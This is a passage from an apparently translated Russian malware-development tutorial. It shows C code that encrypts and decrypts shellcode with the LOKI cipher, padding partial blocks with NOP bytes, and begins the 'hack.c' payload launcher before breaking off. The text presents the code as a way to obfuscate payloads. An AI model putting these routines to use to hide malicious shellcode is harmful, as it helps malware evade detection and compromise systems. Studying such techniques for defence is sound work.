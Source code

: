 Для каждого блока `8-byte` функция `loki_encrypt` вызывается с текущим блоком и ключом шифрования. `shellcode + i * BLOCK_SIZE` вычисляет адрес текущего блока `8-byte` в шеллкоде.

После обработки всех полных блоков `8-byte` функция проверяет, остались ли какие-либо байты, которые не образуют полный блок.

```cpp
int remaining = shellcode_len % BLOCK_SIZE;
if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  loki_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
}
```

Обратите внимание, что, как обычно, заполняющий массив pad размером `8 байт` инициализируется с `0x90` (инструкция `NOP` в сборке `x86`).

Эта функция гарантирует, что весь шеллкод, независимо от его длины, будет зашифрован с использованием алгоритма LOKI с правильной обработкой любых частичных блоков.

Затем по аналогии создаем логику расшифровки:

```cpp
void loki_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

Окончательный полный исходный код для запуска полезной нагрузки выглядит следующим образом (`hack.c`):    

```cpp
/*
* hack.c
* encrypt/decrypt payload via LOKI
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/16/malware-cryptography-29.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 8

typedef uint32_t u32;
```